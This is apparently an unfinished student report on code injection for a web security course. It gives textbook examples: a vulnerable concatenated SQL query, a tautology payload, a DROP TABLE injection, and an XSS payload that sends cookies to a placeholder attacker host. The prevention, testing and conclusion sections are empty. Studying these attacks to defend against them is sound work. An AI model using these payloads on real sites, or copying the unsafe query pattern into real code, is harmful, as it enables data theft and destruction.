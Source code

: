 <!-- omit in toc -->
# Security Risk: Code Injection

Written by: Jeffrey E.G. Derksen  
For course: S-DB-IPS3  
Class: S3-DB01  
Date: 17 June 2022  
Version: 1  

<!-- omit in toc -->
## Table of Contents



## Introduction and main research question

When you develop and publish a web application, you are exposing it to a potentially harmful environment. There are those who prowl the internet looking for security vulnerabilities to exploit and cause damage or steal sensitive data. Naturally, when developing a web application you would want to make sure that your application contains as few as possible security vulnerabilities—preferably none at all! You are after all responsible for maintaining a safe environment for your users.

The Open Web Application Security Project (OWASP) is a nonprofit foundation that works to improve the security of software, and they have created a [top 10 list of the most critical security risks to web applications](https://owasp.org/Top10/). Each of these items is definitely worth looking into, but I have chosen to delve into the topic of *code injection*. This drew my attention because I have heard about it before, but I don't know enough about it to properly secure my application against it. What I do know is that it can present a serious security risk. For this reason, during the course of this research report, I will seek to find answers to the following **main research question:**

> What is code injection and how can you secure you web application against it?

During this research project I have made use of the [DOT framework](https://ictresearchmethods.nl/The_DOT_Framework) to guide my process and to assist me with acquiring the right information and drawing conclusions from it. I have made use of the following methods:
- Library: best good and bad practices, design pattern research, literature study
- Lab: security test

## Sub-questions

In order to answer the main research question, I have broken the problem down into smaller sub-questions:

- What is code injection?
- What different kinds of code injection exist?
- What are some examples of code injection?
- What measures can you take to prevent code injection?
- Is my application vulnerable to a code injection attack?

I will try to find answers for each of these questions in the following sections of this report.

## What is code injection

Code injection is the act of deliberately introducing code into a vulnerable computer system and changing the program's execution, making it do and/or return something that it was not designed to do. This is usually done by injecting code that the attacker knows will be misinterpreted by the system, and can be done through systems designed for user input (such as login forms or search fields), by manipulating (internal) API calls, , , to name a few.



## What different kinds of code injection exist

There are many different kinds of code injection. Some of the most well-known kinds are:
- SQL injection
- NoSQL injection
- ORM injection
- Command injection
- Server-side template injection
- Cross-site scripting

An interesting thing to note is that the first three items on this list—SQL, NoSQL, and ORM injection—all target database systems. These systems may contain sensitive and valuable information, and as a result become prime targets for attackers. By tricking a database system with 

Cross-site scripting and server-side template injection also share some similarities. They both attempt to execute malicious code through an injected script

## What are some examples of code injection

In order to better understand how code injection might be accomplished, and what the consequences might be, I have found several examples of code injection using some common methods. SQL injection and cross-site scripting can both be used to attempt stealing sensitive user data such as usernames, passwords, and access tokens.

### Example of SQL injection

SQL injection can be used to compromise the original intent of a database query. Instead of entering a single parameter as the developer intends the user to do, an attacker might add comparisons that always evaluate to true or SQL statements to get more or different results or perform malicious and destructive actions on the database. In the example below we see how a query is constructed based on an *id* parameter entered by the user.

```
String query = "SELECT \* FROM accounts WHERE custID='" + request.getParameter("id") + "'";
```

The attacker might then send a request to the server that looks like this:

```
 http://example.com/app/accountView?id=' or '1'='1
```

Instead of a valid customer ID, it contains a comparison that will always evaluate to true. This in essence negates the WHERE constraint in the original query, which results in the database returning **all** the entries in the designated table, instead of just one. In addition, the attacker might also introduce new SQL statements that modify the content of the database. This can even lead to data loss, as demonstrated in the example below.

```
 http://example.com/app/accountView?id=1; DROP TABLE accounts; 
```

The attacker appends a command to drop the accounts table to the id parameter. This will cause the database to delete the entire accounts table, erasing all the data within.

### Example of cross-site scripting

Let's take a look at an example of cross-site scripting. Some websites feature a guestbook where visitors can leave a message that is then displayed on the website afterwards. Depending on how the guestbook script processes and displays this message, an attacker may make use of vulnerabilities within this feature to inject a script into the website by placing a message such as the one below.

```
Don't mind the following code. <script>window.location="https://some_attacker/evilcgi/cookie.cgi?steal=" + escape(document.cookie)</script>
```

When the browser of another visitor loads the content on this webpage, it will now execute the script that was injected in the guestbook message and deliver a cookie containing sensitive user data such as an authentication token to the attacker's website. The attacker can then use this token to log in onto the website posing as the user whose data was stolen and carry out all kinds of harmful actions.

## What measures can you take to prevent code injection?

## Is my application vulnerable to a code injection attack?

Testing!!!

## Conclusion



## Sources

- [Canvas: Secure Web Development](https://fhict.instructure.com/courses/12078/pages/secure-web-development?module_item_id=749948)
- [OWASP: A03:2021 – Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [OWASP: Code Injection](https://owasp.org/www-community/attacks/Code_Injection)
- [OWASP: Injection Prevention Cheat Sheet in Java](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_in_Java_Cheat_Sheet.html)
- [W3Schools: SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)
- [Wikipedia: Code Injection](https://en.wikipedia.org/wiki/Code_injection)

